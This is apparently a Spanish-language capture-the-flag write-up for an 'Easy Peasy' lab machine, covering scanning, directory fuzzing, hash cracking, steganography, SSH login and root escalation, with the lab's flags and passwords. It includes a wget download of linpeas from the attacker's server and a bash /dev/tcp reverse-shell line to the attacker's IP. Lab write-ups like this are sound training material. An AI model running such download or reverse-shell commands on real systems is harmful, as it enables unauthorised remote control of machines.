# Easy Peasy
Nmap

Puertos abiertos

Web
Puerto 80
Robots.txt
Versión nginx

Puerto 65524
Fuzzing
gobuster dir -u http://10.10.44.195/ -w Desktop/common.txt -x php
 



flag{f1rs7_fl4g}
Para crackear el hash lo introducimos en la siguiente web md5hashing
flag{1m_s3c0nd_fl4g}Encontramos la tercera flag en la misma web de apache
Encontramos un codigo cifrado en base62, hace referencia a la ruta escondida "/n0th1ng3ls3m4tt3r"
 En el código fuente encontramos un hash

Usamos "hash-identifier", para ver posibles cifrados

Use los posibles cifrados pero no lo encontré, por lo que use john y el diccionario de contraseñas "easypeasy.txt"
 mypasswordforthatjobDescargamos la imagen de la web, comprobamos si tiene algun texto escondido
steghide extract -sf binarycodepixabay.jpgNos pide una contraseña, usamos la que acabamos de conseguir
 iconvertedmypasswordtobinarySSH
ssh -p 6498 boring@10.10.254.187Encontramos un ``user.txt`` con la flag ¿rotada?

Usamos rot13
flag{n0wits33msn0rm4l}
Escalada de privilegios
Iniciamos un servidor para subir ``linpeas``
python3 -m http.server 1234
Lo descargamos en la máquina atacada
wget 10.8.67.209:1234/linpeas.shLo ejecutamos
chmod +x linpeas.sh
./linpeas.sh
Creamos una shell en el archivo
bash -i >& /dev/tcp/10.8.67.209/8080 0>&1
Ponemos el puerto en escucha, ya tendremos acceso ``root``

Buscamos ``root.txt``
